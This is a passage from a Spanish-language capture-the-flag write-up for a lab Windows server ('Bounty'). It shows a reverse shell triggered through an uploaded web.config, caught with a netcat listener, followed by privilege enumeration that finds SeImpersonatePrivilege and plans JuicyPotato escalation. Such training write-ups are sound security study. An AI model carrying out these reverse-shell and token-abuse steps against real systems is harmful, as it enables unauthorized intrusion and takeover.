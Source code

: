 ```
```

Una vez subido este archivo y veamos que la subida ha sido exitosa nos debemos dirigir a `http://10.129.74.109/uploadedfiles/web.config`. Si todo ha ido bien deberíamos recibir una `shell` en nuestro equipo

```
# rlwrap nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.74.109] 49160
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

`Listamos privilegios` y vemos que `SeImpersonatePrivilege` está habilitado, con este privilegio podemos `convertirnos` en el usuario `Administrator`

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Vamos a convertirnos en `Administrator` siguiendo las `instrucciones` de [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege. Para ver si podemos usar `JuicyPotato` listamos la `versión` del `Windows Server`, en este caso al ser anterior al `2019` podemos usarlo, de no ser así tendríamos que utilizar otras alternativas

```
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          7/19/2024, 4:00:42 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
```